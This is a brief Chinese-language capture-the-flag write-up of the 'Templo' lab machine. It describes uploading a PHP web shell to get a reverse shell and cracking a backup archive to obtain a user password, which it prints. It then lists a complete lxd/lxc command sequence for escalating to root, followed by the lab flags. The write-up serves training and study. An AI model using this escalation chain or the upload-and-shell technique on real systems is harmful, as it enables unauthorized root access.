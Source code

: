 # Templo

2025.03.03 https://thehackerslabs.com/templo/

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

web 首页无内容，在源码中发现 `NAMARI lo es todo solo debes probar`。

扫描发现 http://192.168.5.40/wow/clue.txt， 线索 Vamos al /opt ，提示去/opt，但是目前没进入到系统。

访问 NAMARI 目录，上面能上传文件和读取文件，再次对这个目录进行扫描，发现 http://192.168.5.40/NAMARI/uploads/ ， 尝试上传 php web shell 然后访问 http://192.168.5.40/NAMARI/uploads/8888.php 就在 kali 上得到了反弹的 shell。

根据前面线索，进入 /opt 发现 backup.zip，下载到 kali ，john 得到解码密码得到字符串 `6rK5£6iqF;o|8dmla859/_` 应该是 rodgar 用户的密码。

切换用户拿到 user flag：

```
rodgar@TheHackersLabs-Templo:~$ cat user.txt
3e6ae8a53cc7e954a8433af59920dc7e
```

当前用户在 lxd 组中可以利用 lxd 权限提权：

```
find / -name lxc 2>/dev/null

/usr/sbin/lxc image import /tmp/alpine-v3.13-x86_64-20210218_0139.tar.gz --alias lxcimage
/usr/sbin/lxc image list

/usr/sbin/lxc storage create pool dir
/usr/sbin/lxc profile device add default root disk path=/ pool=pool
/usr/sbin/lxc init lxcimage ignite -c security.privileged=true
/usr/sbin/lxc config device add ignite trenches disk source=/ path=/mnt/root recursive=true
/usr/sbin/lxc start ignite
/usr/sbin/lxc exec ignite /bin/sh
```

最后拿到了 root flag：

```
cd /mnt/root
cd root
cat root.txt
63a9f0ea7bb98050796b649e85481845
```
